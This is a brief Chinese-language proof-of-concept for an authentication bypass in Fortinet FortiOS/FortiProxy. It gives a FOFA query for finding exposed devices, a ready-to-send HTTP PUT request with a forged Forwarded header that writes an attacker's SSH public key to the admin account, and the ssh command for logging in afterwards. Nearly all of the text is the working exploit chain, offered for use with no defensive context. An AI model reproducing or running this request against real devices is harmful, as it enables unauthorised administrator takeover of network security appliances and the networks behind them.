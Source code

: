 # Fortinet FortiOS admin 远程命令执行漏洞
## 资产收集
fofa：`title="FortiProxy"`  
![](./img/login.png)
## POC
```html
PUT /api/v2/cmdb/system/admin/admin HTTP/2
Host:{Hostname}
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 407
Content-Type: application/json
Forwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"
User-Agent: Report Runner

{"ssh-public-key1": "\"ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEA03fxsQaPF5E4dG+VEt6L0eenZNRbxsvIs6K4e8NQfEwMQOduZdeK79SeJWjgYD9lvm9pyyX73uvZBa4bU/otAZiR+UxjTYVPDZrdOA4LLbnp4ItKxjnLYBk7DfqIvsP2UHydT8+ovznk37T45QavvHJRa6W11eP8dgKdiT049orOsGQ7e2M4+FnhouQQ4keBmoU5MCW4bv8CyUM4MVpQSZLG8wlT0osYvrlk+WFio4+ZDvamfVV0xzXmqhODUp5oCgfe2TXf3GUE36cvIix046R81kA8ZrreQSp5mHladf2QFdWAfXNelPKdT+I6sl39RkUzGdyE/2yErH2T8mFIPQ==\""}
```
返回`SSH key is good.`证明写入成功
![](./img/poc.png)  
通过admin用户使用公钥连接：`ssh -i id_rsa admin@x.x.x.x`